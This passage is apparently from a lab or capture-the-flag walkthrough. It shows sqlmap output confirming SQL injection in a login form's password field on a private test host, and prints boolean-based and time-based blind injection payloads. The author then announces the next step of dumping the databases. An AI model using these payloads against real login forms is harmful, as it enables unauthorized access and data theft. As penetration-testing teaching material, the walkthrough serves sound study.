 ```bash
[16:47:01] [WARNING] POST parameter 'mypassword' does not appear to be dynamic
[16:47:01] [INFO] heuristic (basic) test shows that POST parameter 'mypassword' might be injectable (possible DBMS: 'MySQL')
[16:47:01] [INFO] testing for SQL injection on POST parameter 'mypassword'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
...
sqlmap got a 302 redirect to 'http://10.0.2.14:80/login_success.php?username=admin'. Do you want to follow? [Y/n] n
[16:47:14] [INFO] POST parameter 'mypassword' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --code=302)
...
[16:47:34] [INFO] POST parameter 'mypassword' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
...
[16:47:34] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] n
...
[16:47:46] [INFO] checking if the injection point on POST parameter 'mypassword' is a false positive
POST parameter 'mypassword' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 453 HTTP(s) requests:
---
Parameter: mypassword (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: myusername=admin&mypassword=-8971' OR 9093=9093#&Submit=Login

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: myusername=admin&mypassword=test' OR SLEEP(5)-- BBgU&Submit=Login
---
[16:47:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL >= 5.0.12
[16:47:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.0.2.14'

[*] ending @ 16:47:50 /2019-02-02/
```

## Finding a Vein

There's a ton of information here, not counting what I cut. This tells us that 'myusername' isn't injectable and 'mypassword' IS INJECTABLE.

From here, we'll use SQLMap to enumerate any databases and grab some data.
